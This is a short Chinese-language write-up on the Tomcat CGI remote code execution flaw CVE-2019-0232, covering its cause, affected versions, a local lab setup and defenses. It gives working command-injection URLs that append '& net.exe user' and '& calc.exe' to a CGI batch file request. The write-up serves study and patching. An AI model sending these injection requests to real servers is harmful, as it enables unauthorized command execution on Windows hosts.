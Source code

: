 # Tomcat 远程代码执行（CVE-2019-0232）

## 介绍
该漏洞是由于Tomcat CGI将命令行参数传递给Windows程序的方式存在错误，使得CGI Servlet被攻击者设计好的命令注入请求影响。成因是因为当将参数从JRE传递到Windows环境时，由于CGI_Servlet中的输入验证错误而存在该漏洞

条件是在Windows平台，要求启用了CGIServlet和enableCmdLineArguments参数。（两者默认是不启用的）

## 影响范围
Apache Tomcat 9.0.0.M1 to 9.0.17        

Apache Tomcat 8.5.0 to 8.5.39        

Apache Tomcat 7.0.0 to 7.0.93

## 方式
找到apache-tomcat-8.5.39\webapps\ROOT\WEB-INF目录

新建一个cgi-bin文件夹，创建一个hello.bat的文件

开始利用： \
1、查看用户

http://localhost:8080/cgi-bin/hello.bat?& C:\Windows\System32\net.exe user
（url编码一下）

2、打开计算器

http://localhost:8080/cgi-bin/hello.bat?& C:\Windows\System32\calc.exe
（url编码一下）

## 防御
检测字符串输入的合法性

CGIServlet和enableCmdLineArguments参数设置为false（默认就是false）